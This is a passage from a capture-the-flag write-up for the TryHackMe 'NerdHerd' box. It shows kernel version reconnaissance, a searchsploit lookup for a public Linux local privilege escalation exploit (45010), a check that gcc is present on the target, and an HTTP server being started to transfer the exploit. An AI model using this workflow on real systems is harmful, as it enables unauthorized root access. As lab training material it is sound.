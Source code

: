 ```bash
restart
reboot
```

Nothing useful.

**Kernel version:**
```
chuck@nerdherd:~$ uname -a;cat /etc/issue
Linux nerdherd 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
Ubuntu 16.04.1 LTS \n \l
```

This kernel version looks like is **vulnerable to kernel exploit**?

After some googling about `Linux kernel 4.4.0-31 exploit`, I found several kernel exploits that work for us.

Instead of using the infamous dirtycow kernel exploits, I'll use another kernel exploit:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NerdHead]
└─# searchsploit 45010
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation     | linux/local/45010.c
---------------------------------------------------------------------------------- ---------------------------------

┌──(root🌸siunam)-[~/ctf/thm/ctf/NerdHead]
└─# searchsploit -m 45010
```

**To exploit it, I'll:**

- Check the target machine has `gcc` installed or not:

```
chuck@nerdherd:/tmp$ which gcc
/usr/bin/gcc
```

It has `gcc`! Then I'll compile the exploit from there.

- Transfer the `C` exploit to the target machine, compile it via `gcc`, and run the compiled exploit binary:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NerdHead]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
